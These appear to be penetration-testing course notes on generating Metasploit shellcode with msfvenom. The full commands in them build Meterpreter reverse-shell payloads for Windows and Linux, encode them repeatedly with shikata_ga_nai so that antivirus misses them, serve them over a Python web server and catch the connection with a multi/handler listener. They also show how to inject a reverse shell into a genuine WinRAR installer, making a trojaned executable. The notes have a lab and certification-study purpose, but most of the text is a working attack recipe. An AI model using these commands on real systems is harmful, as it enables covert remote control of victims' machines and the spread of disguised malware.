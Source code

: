 🗒️ **Shellcode** is the code typically used as a _payload_ for exploitation, that provides with a remote _command shell_ on the target system.msfvenom --list encodersmsfvenom --list encoders

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-36c58ce623edb6604b5389a560b43c2b2889540f%2Fimage-20230415212307184.png?alt=media" alt=""><figcaption></figcaption></figure>

* Excellent encoders are **`cmd/powershell_base64`** and **`x86/shikata_ga_nai`**

### **Windows Payload**

* Generate a Win x86 payload and encode it with `shikata_ga_nai`:

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata\_ga\_nai -f exe > /home/kali/certs/ejpt/Windows\_Payloads/encodedx86.exemsfvenom shikata\_ga\_nai Win

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-d56db5d41d93664e9db09e119cb88f61f33c9b3b%2Fimage-20230415213830109.png?alt=media" alt=""><figcaption></figcaption></figure>

* The payload can be encoded as often as desired by increasing the number of iterations.
* The more iterations, the better chances to bypass an Antivirus. Use **`-i`** option.

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata\_ga\_nai -f exe > /home/kali/certs/ejpt/Windows\_Payloads/encodedx86.exe

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9c008a977f1b16aded3166fa2f353eba24310ff4%2Fimage-20230415213941131.png?alt=media" alt=""><figcaption></figcaption></figure>

### **Linux Payload**

msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata\_ga\_nai -f elf > /home/kali/certs/ejpt/Linux\_Payloads/encodedx86msfvenom shikata\_ga\_nai Linux

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e2cc12efa4f115212a607b3c46a2996a9eedb3bc%2Fimage-20230415213215234.png?alt=media" alt=""><figcaption></figcaption></figure>

* Test each of the above generated payloads, like before

cd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080msfconsole -q​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-272cfba18c7588efaa8b7563881176e593a4fd82%2Fimage-20230415213745031.png?alt=media" alt=""><figcaption></figcaption></figure>

> 📌 Modern antivirus detects and blocks the encoded payload as soon as the download is started:​​

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-0a77cc42fa547ba68f55942bb166da905d8fe024%2Fimage-20230415214414552.png?alt=media" alt=""><figcaption></figcaption></figure>

### Injecting Payloads into PEs <a href="#injecting-payloads-into-pes" id="injecting-payloads-into-pes"></a>

🗒️ [Windows **Portable Executable**](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit) (**PE**) _is a file format for executables, object code, DLLs and others, used in 32-bit and 64-bit Windows O.S._

* Download a portable executable, **`e.g.`** [WinRAR](https://www.win-rar.com/download.html)​
* Payloads can be injected into PEs with `msfvenom` with the **`-x`** and **`-k`** options

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata\_ga\_nai -i 10 -f exe -x winrar-x32-621.exe > /home/kali/certs/ejpt/Windows\_Payloads/winrar.execd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080msfconsole -q​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run
